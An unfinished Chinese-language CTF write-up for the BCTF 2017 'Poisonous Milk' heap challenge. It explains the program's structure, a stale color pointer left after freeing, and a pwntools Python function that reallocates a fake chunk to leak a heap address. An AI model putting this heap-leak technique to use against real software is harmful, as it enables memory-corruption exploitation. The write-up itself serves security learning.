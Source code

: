 
# Unfinished
orz 技巧好多

## Struct

通过逆向和调试可以比较清楚的理解程序中相关的结构，因为没找到好的画图软件，所以贴上dalao的一个图orz<br>
![Struct](pmilk_diagram.png)

同时附上链接<br>
(usf poisonous_milk)[http://uaf.io/exploitation/2017/04/17/BCTF-2017-PoisonousMilk.html]


## Vuln

漏洞点感觉比较难发现，是
![vuln0](vuln0.png)
对结构中的color指针进行赋值<br>
但是如果我什么都不输入，这里就不会对color指针赋值，那么我只要先申请1个堆<br>

c++
```
+0   str_xxxx0xxxxxx
+8   ???????----size
+16  color_p0---str_p0
```

接着释放它，由于程序中先释放字符串对应的堆，然后释放指针相关的，所以释放完之后，color处对应就有指向堆的指针heap_fkp0<br>
再申请0，并且输入color table中不存在的元素，使得color处的值不变(不赋值，此时就是heap_fkp0)<br>
而heap_fkp0正好指向的地方存了堆相关的指针<br>
下面只要通过查看该结构信息即可获取堆的地址<br>

Python
```
def s_leak():
    put_milk("a"*0x08+"\n", "red")
    remove_milk(0)
    fake_chunk0 = p64(0x91).ljust(0x44, 'c') + '\n'
    put_milk(fake_chunk0, "none")
    view_milk()
    io.recvuntil("[0] [")
    lk_heap_addr = u64((io.recvuntil("]")[:-1].ljust(8, chr(0)))) - 0x78
    log.info("heap address: "+hex(lk_heap_addr))
```
